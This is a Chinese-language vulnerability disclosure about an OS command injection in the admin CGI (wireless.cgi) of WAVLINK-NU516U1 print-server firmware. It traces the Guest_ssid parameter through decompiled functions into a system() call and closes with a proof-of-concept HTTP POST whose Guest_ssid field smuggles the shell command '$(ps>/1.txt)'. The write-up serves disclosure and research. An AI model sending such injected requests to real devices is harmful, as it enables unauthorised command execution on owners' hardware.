




# 漏洞概述

Wavlink是一家专注于网络设备和通信解决方案的公司，提供优质的路由器、扩展器和网络配件。其下的WAVLINK-NU516U1型号的固件，功能用于提供打印机服务器网卡，其管理后台存在命令注入漏洞，允许攻击者完成os命令执行。

固件下载地址：

https://docs.wavlink.xyz/Firmware/fm-516u1/

 

 

# 代码审计

对固件binwalk -Me [固件位置] 解包，找到wireless.cgi程序，使用ida打开

 

（逆向分析的过程涉及的伪代码比较长，这里只截取ida显示的关键片段）

 

在main（ida中显示为ftext）函数中，首先获取了用户提交的page参数值



将page参数值设置为GuestWifi，会跳转进入sub_4032E4函数



sub_4032E4函数内，获取了Guest_ssid参数值，该值可以post传参可控



随后Guest_ssid参数值被传入sub_407504函数内


在其中拼接给v8变量，交给system函数执行，产生了命令注入



此处反编译代码中，system函数参数显示为空，但在汇编代码中仍然可以判断出其参数为v8

# POC

```shell
POST /cgi-bin/wireless.cgi HTTP/1.1

Host: 10.10.10.2

Content-Length: 269

Cache-Control: max-age=0

Upgrade-Insecure-Requests: 1

Origin: http://10.10.10.2

Content-Type: application/x-www-form-urlencoded

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9

Referer: http://10.10.10.2/

Accept-Encoding: gzip, deflate

Accept-Language: zh-CN,zh;q=0.9

Connection: close

page=GuestWifi&guestEn=1&Guest_ssid=$(ps>/1.txt)
```

